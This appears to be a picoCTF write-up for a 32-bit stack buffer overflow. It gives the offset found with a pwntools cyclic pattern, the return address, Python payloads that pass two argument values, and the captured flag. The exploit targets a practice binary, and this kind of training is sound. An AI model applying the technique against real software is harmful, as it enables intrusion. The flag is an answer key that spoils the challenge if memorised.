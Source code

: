 # Contents
- Task Description
- Notes


## Task Description
Control the return address and arguments This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/346/vuln)? You can view source [here](https://artifacts.picoctf.net/c/346/vuln.c). And connect with it using `nc saturn.picoctf.net 50954`

## Notes
Looking at the source code there are 2 arguments that need to be passed in. 
 - 0xCAFEF00D
 - 0XF00DF00D

Cause an overflow using python to generate a cyclic pattern
```python
from pwn import *
g = cyclic_gen()
g.get(100)
g.find("daac")
```
buffer of 112

get ret addr.
0x08049296

generate payload (LSB)
```python2
print "A"*112+"\x96\x92\x04\x08"+"\x0D\xF0\xFE\xCA"+"\x0D\xF0\x0D\xF0"
```
This gives an error and when checking the stack the first argument is missing. Checking the source code again there seems to be a fgets, to counter this adding 4 bytes after the ret addr will fill up the fgets and still pass in the 2 arguments.

```python2
print "A"*112+"\x96\x92\x04\x08"+"BBBB"+"\x0D\xF0\xFE\xCA"+"\x0D\xF0\x0D\xF0"
```
passing this to the nc session gives the flag.
```flag
picoCTF{argum3nt5_4_d4yZ_31432deb}
```


---
Creation date: 23-10-2022

Last modified date: Sunday 23rd October 2022
***
